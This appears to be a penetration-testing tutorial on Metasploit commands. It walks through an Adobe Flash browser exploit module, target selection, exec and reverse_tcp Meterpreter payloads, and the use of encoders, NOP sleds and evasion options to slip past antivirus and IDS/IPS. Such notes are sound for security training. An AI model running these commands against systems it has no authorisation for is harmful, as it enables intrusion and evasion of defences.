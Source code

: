 # Metasploit Exploit Commands

This section focuses on once an exploit is selected. Once an exploit is activated, and we are in context mode, we can use `show options` to display specific parameters.
Lets demonstrate with an `adobe_flash_shader_drawing_fill` exploit. 

```bash
use exploit/multi/browser/adobe_flash_shader_drawing_fill
show options
set SRVHOST
set SRVPORT
```

### Show targets

In exploit context mode, allows us to see what targets are available - we can see using the previous exploit, both Windows and Linux are susceptible. We choose one:

```bash
# Choose the Linux target
set target 1
# The display will then show the Linux only payloads
show payloads
# Set Payload - runs a basic command
set payload linux/x86/exec
# Or we can get a reverse shell Meterpreter payload
set payload linux/x86/meterpreter/reverse_tcp
set lhost [your listening ip]
set lport [listening port]

# Can set global parameters
setg LHOST [ip]
save
```

### Staged vs Non-Staged

Non-staged payloads are sent to the target all at once.
Staged payloads are sent in parts / stages. In some occasions, staged is the best choice, such as when the buffer size isn't large enough, or to avoid the antivirus detecting shellcode in a payload. 

### Show Advanced

In exploit context, AND when a payload has been set, `show advanced` will show advanced options for that payload.
`set disablepayloadhandler true` - allows us to set a modified advanced payload parameter.

### Show encoders

`show encoders` allow you to see a list of available / compatible encoders, which can be used to avoid and evade IDS/IPS signatures. 

### Show nops

`show nops` returns a list of NOP generators, which is used to create a NOP sled to bypass IDS/IPS signatures. 
To select a NOP generator, `set x64/simple` for example. 

### Show evasion

`show evasion` shows a list of available evasion techniques. 

### Executing exploits

Just two commands, and they both do the same thing - 
`run` and `exploit`.  

